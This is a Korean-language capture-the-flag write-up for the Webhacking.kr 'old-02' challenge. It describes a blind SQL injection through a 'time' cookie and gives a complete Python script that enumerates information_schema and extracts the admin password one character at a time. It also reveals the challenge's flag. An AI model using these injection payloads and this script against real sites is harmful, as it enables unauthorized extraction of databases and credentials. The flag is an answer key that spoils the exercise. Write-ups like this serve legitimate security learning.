




# old-02

**Category:** Web

**Source:** Webhacking.kr

**Points:** 500

**Author:** galaxy(김경환)

**Description:** 

> 

## Point
blind sql injection, information_schema

## Write-up

메인페이지에는 특별한 정보가 안보입니다.


source를 보니 주석처리로 된 시간이 특이하게 있습니다.

밑의 주석에서는 admin.php로 접근하라고 hint를 주었습니다.



admin페이지에는 password를 입력하는 곳이 있습니다.

sql injection을 했지만 먹히지 않습니다.

sql injection은 아닌거 같아 다른것을 찾아보았습니다.



cookie를 보면 time이라는 값이 들어있습니다.

cookie의 값을 수정하니 메인 페이지의 주석에 있는 시간이 수정됐습니다.


테스트로 간단한 sql문을 입력하니 동작하는 것을 볼 수 있습니다.

cookie에 있는 time에 sql문을 입력해서 원하는 정보를 가져올 수 있습니다.

찾아야하는 값은 passwd인데 db안에 있을거라 유추 했습니다.

여기서 필요한 부분이 passwd를 가지고 있는 table의 이름과, column명이 필요합니다.

information_schema db안에서 table명과 column명을 찾을 수 있습니다.

information_schema.tables에서 table명을 알아내야 하는데 너무 많은 table이 있었고, 나오는 결과값을 출력할 수는 없었습니다. 다만 숫자를 출력하면 주석에 시간으로 나타나서 알 수 있습니다.

table이름에 admin이 포함되있지 않나 하고

select count(table_name) from information_schema.tables where table_name like 'admin%'

위와 같은 query를 보냈습니다.

1이 출력되어서 admin이 포함된 table이 한개만 존재한다는 것을 알았습니다.

그 이후로는 아래의 python 코드를 작성해서 exploit했습니다.

```python
import string
import requests 

table_name=''
column_name=''
pw=''
length_table_name=0
length_column_name=0
length_pw=0

success='2070-01-01 09:00:01'
area='_'+string.letters[:26]

#find length_table_name
URL='https://webhacking.kr/challenge/web-02/'
cookies={'PHPSESSID':'93m4d3r35rqn9222h9qinat6fb','time':"(select length(table_name) from information_schema.tables where table_name like 'admin%')"}
response=requests.get(URL, cookies=cookies)

print('length of table_name is '+ response.text.split('--')[1].split(':')[2][:-1])
length_table_name=13

#find table_name
for i in range(1,14):
	for c in area:
		cookies={'PHPSESSID' : '93m4d3r35rqn9222h9qinat6fb','time':"12345 and '"+c+"'=(select mid(table_name,"+str(i)+",1) from information_schema.tables where table_name like 'admin%')"}
		response = requests.get(URL,cookies=cookies) 

		if success in response.text:
			table_name+=c
			break

table_name='admin_area_pw'
print('table name is '+table_name)

#find length_column_name
cookies={'PHPSESSID':'93m4d3r35rqn9222h9qinat6fb','time':"(select length(column_name) from information_schema.columns where table_name like '"+table_name+"')"}
response=requests.get(URL, cookies=cookies)

print('length of table_name is '+ response.text.split('--')[1].split(':')[2][:-1])
length_column_name=2

#find column_name
for i in range(1,3):
	for c in area:
		cookies={'PHPSESSID' : '93m4d3r35rqn9222h9qinat6fb','time':"12345 and '"+c+"'=(select mid(column_name,"+str(i)+",1) from information_schema.columns where table_name like '"+table_name+"')"}
		response=requests.get(URL,cookies=cookies)

		if success in response.text:
			column_name+=c
			break
column_name='pw'
print('column name is '+column_name)

#find length_pw
cookies={'PHPSESSID':'93m4d3r35rqn9222h9qinat6fb','time':"(select length("+column_name+") from "+table_name+")"}
response=requests.get(URL, cookies=cookies)

print('length of pw is '+ response.text.split('--')[1].split(':')[2][:-1])
length_pw=17

#find pw
for i in range(1,18):
	for c in area:
		cookies={'PHPSESSID' : '93m4d3r35rqn9222h9qinat6fb','time':"12345 and '"+c+"'=(select mid("+column_name+","+str(i)+",1) from "+table_name+")"}
		response=requests.get(URL,cookies=cookies)

		if success in response.text:
			pw+=c
			break
print('pw is '+pw)
```


Flag : pw는 kudos_to_beistlab 입니다.
